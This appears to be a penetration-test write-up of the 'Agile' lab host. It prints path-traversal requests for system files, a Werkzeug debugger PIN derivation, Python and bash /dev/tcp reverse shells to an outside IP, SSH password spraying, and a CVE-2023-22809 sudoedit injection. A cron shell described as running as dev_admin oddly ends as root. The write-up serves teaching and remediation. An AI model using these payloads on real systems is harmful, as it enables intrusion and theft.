

## Engagement Overview

The auditor was tasked with assessing **Agile**, a Linux host running a custom Python web application, under a black-box methodology with no prior credentials. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine the maximum level of access achievable.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, vulnerability identification, exploitation, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

The auditor identified a web application, **SuperPassword**, served by a Python/Flask backend rather than PHP as initially assumed. A `download` endpoint accepted a filename parameter, which was the entry point for the first finding.

## Finding 1: Local File Inclusion in the Download Endpoint

> [!CAUTION]
> **Severity: High.** Arbitrary file read on the underlying host.

The `fn` parameter of the `/download` endpoint was found to be vulnerable to path traversal, allowing arbitrary file reads from the server's filesystem:

```http
GET /download?fn=../etc/passwd
```

The tester used this to pull the application's own source code and internal state, both of which were later required to defeat a second control:

```http
GET /download?fn=../app/venv/lib/python3.10/site-packages/flask/app.py HTTP/1.1
GET /download?fn=../../proc/self/environ HTTP/1.1
GET /download?fn=../../etc/machine-id HTTP/1.1
GET /download?fn=../../proc/self/cgroup HTTP/1.1
```

## Finding 2: Werkzeug Debug Console Exposed, Leading to Remote Code Execution

> [!CAUTION]
> **Severity: Critical.** Unauthenticated remote code execution via the Flask/Werkzeug interactive debugger.

The application was running with Flask's debug mode enabled in production, exposing the Werkzeug interactive debugger. That console is protected by a PIN, but the PIN is deterministically derived from several host and process values that the file inclusion bug had just disclosed: the machine's MAC address, its `machine-id`, the running username, and the WSGI application's module path.

The tester computed the MAC address's decimal representation:

```python
mac = "00:50:56:94:f4:e3"
decimal_value = int(mac.replace(":", ""), 16)
print(decimal_value)
```

and fed all recovered values into Werkzeug's own PIN-derivation algorithm to reproduce the debugger PIN locally:

```python
probably_public_bits = [
    'www-data', 'flask.app', 'wsgi_app',
    '/app/venv/lib/python3.10/site-packages/flask/app.py'
]
private_bits = [
    '345049986275',
    'ed5b159560f54721827644bc9b220d00superpass.service'
]
```

This reproduced the exact debugger PIN (`946-001-904`), granting the tester access to the interactive Python console exposed by the debugger and, with it, arbitrary code execution:

```python
import os, pty, socket
s = socket.socket()
s.connect(("10.10.16.4", 443))
[os.dup2(s.fileno(), f) for f in (0,1,2)]
pty.spawn("sh")
```

Executing that payload against the exposed debugger console returned an interactive shell on a listener the tester had prepared beforehand:

```bash frame="code"
$ nc -nlvp 443
(venv) www-data@agile:/app/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Initial Access

The application's leaked source also contained a working SQL connection, which the tester used to enumerate a set of user password candidates and validate them against SSH in bulk:



```bash frame="code"
$ crackmapexec ssh 10.10.11.203 -u corum -p possible-pash.list
```

One candidate succeeded, giving the tester an authenticated SSH session and the user flag:

```bash frame="code"
$ ssh corum@10.10.11.203
corum@agile:~$ ls -la
-rw-r----- 1 root  corum   33 Aug  1 12:17 user.txt
```

## Finding 3: Privilege Escalation via `sudoedit` Argument Injection (CVE-2023-22809)

> [!CAUTION]
> **Severity: Critical.** Local privilege escalation from a low-privileged user to the `dev_admin` service account, and from there to `root`.

Enumeration turned up a staging deployment pipeline reachable via SSH port forwarding, and eventually an `edwards` account with a narrow `sudoedit` allowance:

```bash frame="code"
edwards@agile:~$ sudo -l
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

The installed `sudo` version was affected by **CVE-2023-22809**, which allows a user to inject additional arguments into `sudoedit` via the `EDITOR`/`VISUAL` environment variables, letting them edit files well outside the two paths the configuration explicitly allows:

```bash frame="code"
edwards@agile:~$ sudo -V
Sudo version 1.9.9
```

The tester abused this to edit a file writable by the `dev_admin` group, `/app/venv/bin/activate`, a script automatically sourced by a recurring test-and-deploy cron job, and planted a reverse shell payload inside it:

```bash frame="code"
edwards@agile:~$ EDITOR='nano -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json
```

The sanctioned edit target was rejected as expected, but the injected editor command still ran against the writable activation script, leaving the following payload in place:

```bash frame="code"
bash -c 'bash -i >& /dev/tcp/10.10.16.4/445 0>&1'
```

The cron job subsequently sourced that script as `dev_admin`, connecting back to a waiting listener with a privileged shell:

```bash frame="code"
$ sudo nc -nlvp 445
root@agile:~# ls
app  clean.sh  root.txt  superpass.sql  testdb.sql
```

This confirmed full root compromise of the host.

## Impact

This engagement chained three independent weaknesses: a file inclusion bug that leaked enough host metadata to defeat a security control (the Werkzeug PIN) that assumes that metadata is secret, a debug interface that should never be reachable in production, and a `sudo` argument-injection CVE that turned a narrowly scoped file-edit permission into arbitrary code execution as a service account. An attacker exploiting this chain would gain unrestricted control of the host and access to all application and database data.

## Recommendations

- **Never deploy with Flask/Werkzeug debug mode enabled** in a production or internet-reachable environment.
- **Fix the path traversal** in the `/download` endpoint by resolving and validating requested paths against an allow-listed base directory.
- **Patch `sudo`** to a version that resolves CVE-2023-22809, and avoid granting `sudoedit` on files whose parent directories are group-writable by the target run-as user.
- **Store database and service credentials outside of source-controlled or web-readable configuration files.**

## Conclusion

The auditor successfully demonstrated a full compromise of the Agile host, from an unauthenticated file inclusion bug to a Werkzeug debug console RCE, and finally to root via a `sudoedit` argument-injection CVE. All three findings are detailed above with reproduction steps and remediation guidance.
